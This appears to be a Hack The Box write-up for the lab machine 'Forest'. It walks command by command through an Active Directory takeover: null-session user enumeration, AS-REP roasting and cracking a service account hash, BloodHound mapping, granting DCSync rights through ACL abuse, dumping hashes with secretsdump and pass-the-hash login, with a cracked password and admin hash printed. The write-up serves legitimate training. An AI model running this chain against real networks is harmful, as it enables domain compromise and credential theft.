 ```yaml
---
layout: single
title:  "HTB - Forest Writeup - 10.10.10.161"
date:   2020-06-08 14:45:23 +0100
categories: hackthebox
excerpt: My writeup of the Hackthebox machine Forest
---
```


![Alt Text](https://dev-to-uploads.s3.amazonaws.com/i/2qlvus10kpyovinvrdjj.png)

# HTB - Forest Writeup - 10.10.10.161

This machine is rated easy difficulty and involved abusing kerberos pre-authentication to kerberoast a hash of a local service account using the impacket script `GetNPUsers`. Root required using bloodhound to visualize the AD environment and find a path to the domain admin, which included abusing ACL's to get DCSync rights.


## 1. Recon

As usual we will start with an nmap scan of the target machine.
`nmap -sC -sV -oA nmap/scan 10.10.10.161`
![Alt Text](https://dev-to-uploads.s3.amazonaws.com/i/y5ve5duwo71bc01j1m44.png)
The ports of note here are:
* 445 - SMB
* 88 - Kerberos
* 135 - RPC
* 5985 - Powershell - WSMan - Remote Management 


Knowing that we have rpc open we can try null authentication to get a list of user accounts
`rpcclient -U "" -N 10.10.10.161` `enumdomusers`
![Alt Text](https://dev-to-uploads.s3.amazonaws.com/i/ozrr70r5kgd6wk5qqosf.png)

 - One account is of particular interest as is starts with `svc` which indicates it may be a service account which would mean we can abuse its special permissions relating to local groups and users
 - We can attempt to kerberoast this user to try and get a hash we can crack

## 2. Exploitation to User

Clone the [Impacket repo](https://github.com/SecureAuthCorp/impacket) and navigate into the examples folder
![Alt Text](https://dev-to-uploads.s3.amazonaws.com/i/8rrjysjhmo5awcrfk68g.png)

Now try try attacking the `svc-alfresco` account:
* If you remember from the nmap scan the domain was `htb.local`
`./GetNPUsers.py htb.local/svc-alfresco -format john -dc-ip 10.10.10.161`
![Alt Text](https://dev-to-uploads.s3.amazonaws.com/i/cvwm8bcl1ojxr7ew4g62.png)
Bingo! We now have the asrep hash of the user `svc-alfresco` and we can crack is using johntheripper
1. First place the hash in a file called hash.txt
2. Run `john -w=/usr/share/wordlists/rockyou.txt hash.txt`
![Alt Text](https://dev-to-uploads.s3.amazonaws.com/i/uladgd2oswyy4gsg5n0w.png)
* We now have the password of the user svc-alfresco - s3rvice

Now we can login to the powershell remote management port using a tool called [Evil-WinRM](https://github.com/Hackplayers/evil-winrm)
`evil-winrm -i 10.10.10.161 -u svc-alfresco -p s3rvice`
![Alt Text](https://dev-to-uploads.s3.amazonaws.com/i/70no1wzqykv6yl5eal8j.png)

Now that we have a shell we can also grab `user.txt`
![Alt Text](https://dev-to-uploads.s3.amazonaws.com/i/eqt6x8uwh1bs6ixell2n.png)

## 3. Priv Esc from User to Domain Admin
* For this priv esc we will use a tool called bloodhound to visualise the Active Directory environment - follow this guide on how to set it up on your system [BloodHound Wiki](https://bloodhound.readthedocs.io/en/latest/index.html)

To begin we need to initialize the neo4j database, you can do this by running: `neo4j console`
![Alt Text](https://dev-to-uploads.s3.amazonaws.com/i/ncikv9qhqfgs4kv1tp58.png)

Now that the db has been launched we can launch blood hound by running `bloodhound` in a terminal
![Alt Text](https://dev-to-uploads.s3.amazonaws.com/i/70n5ncns9wny2bw3z3v4.png)

Now that bloodhound is running, we need some data to analyze, we can use the SharpHound.exe file and the upload and download capabilities of Evil-WinRM to get the files.
Open a new terminal and download the SharpHound.exe file from github
`https://raw.githubusercontent.com/BloodHoundAD/BloodHound/master/Ingestors/SharpHound.exe`
![Alt Text](https://dev-to-uploads.s3.amazonaws.com/i/iin83gg0xty15r0wzps5.png)

Now in your Evil-WinRM terminal type: `upload SharpHound.exe`
![Alt Text](https://dev-to-uploads.s3.amazonaws.com/i/7od4miigwy2k6sw2bq6f.png)

Now we can run the file with the `-c All` flag to to specify we wan't to collect all data on the AD environment
`.\SharpHound.exe -c All`
![Alt Text](https://dev-to-uploads.s3.amazonaws.com/i/wera23epacu76kcnetfi.png)

`ls` `download 20200506091425_BloodHound.zip`
![Alt Text](https://dev-to-uploads.s3.amazonaws.com/i/fefgmf7zsksz6y0mk5af.png)

We now have the bloodhound zip file on our local machine so we can open it in bloodhound by dragging it into the window 
![Alt Text](https://dev-to-uploads.s3.amazonaws.com/i/12nb43yp3fbjmsdsvngl.png)
* You should now see that we have a lot of data in our database

Now we can run one of the pre-made queries `Shortest Paths to Unconstrained Delegation Systems` 
![Alt Text](https://dev-to-uploads.s3.amazonaws.com/i/7c9vjeaqomb8sot6xbye.png)
There are a few things that we can see now:
* We are part of the privileged IT group and as a result part of Account Operators can be a member Exchange Windows Permissions and Exchange Trusted Subsystem Group
* Firstly, this means that we can add ourselves to Exchange Windows Permissions and Exchange Trusted Subsystem Group
* This also means we can abuse ACL (Access Control List) to allow svc-alfresco to perform a DCSync attack to get the admin hash, here is a good video that explains this, [Here](https://www.youtube.com/watch?v=QfyZQDyeXjQ)

Let's try adding ourselves to this group new group:
`net group "Exchange Windows Permissions" svc-alfresco /add`
![Alt Text](https://dev-to-uploads.s3.amazonaws.com/i/c1rqpd51i953tflk5bzn.png)

We can also add ourselves to the `Exchange Trusted Subsystem Group` which will allow us to abuse ACL
`Add-ADGroupMember -Identity "Exchange Trusted Subsystem" -Members svc-alfresco`
![Alt Text](https://dev-to-uploads.s3.amazonaws.com/i/mi71qtpg1f92lk8xeyc4.png)

We can now use a tool called `aclpwn` to give `svc-alfresco` DCSync rights. There is an article here that describes it's usage very well - [ACLPWN Blog](https://blog.fox-it.com/2018/04/26/escalating-privileges-with-acls-in-active-directory/)

1. Lets install aclpwn in kali, it's as simple as `pip install aclpwn`
![Alt Text](https://dev-to-uploads.s3.amazonaws.com/i/ld4bmnztdkqyw7fd2r0e.png)

2. Lets execute this command to give us DCSync permissions
`aclpwn -f svc-alfresco -ft user -d htb.local -s 10.10.10.161` and use option 1
![Alt Text](https://dev-to-uploads.s3.amazonaws.com/i/fqz304mu486dxa7brlwm.png)


3. Now we can use impacket's `secretsdump.py` to get the admin hash
`secretsdump.py htb.local/svc-alfresco:s3rvice@10.10.10.161 -dc-ip 10.10.10.161`
![Alt Text](https://dev-to-uploads.s3.amazonaws.com/i/u2oswynll38jweio651f.png)

### Bingo! We now have the admin hash

We can use this to logon using Evil-WinRM with the -H flag and grab `root.txt`
`evil-winrm -i 10.10.10.161 -u Administrator -H 32693b11e6aa90eb43d32c72a07ceea6`
![Alt Text](https://dev-to-uploads.s3.amazonaws.com/i/r6xpmwnxroiu8qijd4d6.png)

## Rooted!

If you enjoyed my write up or found it useful check out my htb profile linked below:

[![HTB](http://www.hackthebox.eu/badge/image/210952.png)](https://www.hackthebox.eu/home/users/profile/210952)


